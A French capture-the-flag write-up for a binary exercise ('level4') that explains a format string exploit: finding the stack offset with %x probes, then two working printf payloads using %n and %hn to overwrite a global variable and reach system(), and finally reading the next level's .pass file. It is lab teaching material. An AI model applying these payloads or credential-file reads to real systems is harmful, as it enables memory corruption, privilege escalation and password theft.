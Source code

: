 # level4 - Format String Exploitation Avancée

## Analyse du Programme

**Structure**
- Fonction `n()` contenant une comparaison avec `0x1025544`
- Variable à modifier à l'adresse `0x8049810`
- Appel à `printf()` vulnérable dans la fonction `p()`

**Points d'Intérêt**
- Valeur cible: `0x1025544` (16930116 en décimal)
- Comparaison critique: `cmp $0x1025544,%eax`
- Exécution de `system()` si la comparaison réussit

## Méthodes d'Exploitation

- Pour obtenir l'offset on peut envoyer 'AAAA' suivi de %x a fgets ou suivi de %1$x en augmentant la valeur jusqu'a retrouver les 'A'.
```nasm
./level4 
AAAA %x %x %x %x %x %x %x %x %x %x %x %x
AAAA b7ff26b0 bffff694 b7fd0ff4 0 0 bffff658 804848d bffff450 200 b7fd1ac0 b7ff37d0 41414141
```
- On sait maintenant qu'on modifie la stack a partir du 12eme argument de printf
- Comme pour l'exercice precedent on va vouloir modifier la variable a 0x1025544 pour acceder a l'appel system()

**Approche Simple**
```bash
(python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' ; cat) | ./level4
```

**Approche Optimisée**
```bash
(python -c 'print "\x12\x98\x04\x08" + "\x10\x98\x04\x08" + "%250d" + "%12$hn" + "%21570d" + "%13$hn"'; cat) | ./level4
```

L'approche optimisée: 
- Permet de separer les 4 bytes de l'int en 2 (separant les bits de poids faibles et les bits de poids fort), reduisant consirablement le nombre a ecrire via stdin
1. Écrit `0x5544` à l'adresse `0x8049810`
2. Écrit `0x0102` à l'adresse `0x8049812`
3. Utilise `%hn` pour écrire 2 bytes à la fois

**Obtention du Flag**
```bash
cat /home/user/level5/.pass
```

Cette exploitation modifie la valeur en mémoire pour déclencher l'appel à `system()`.
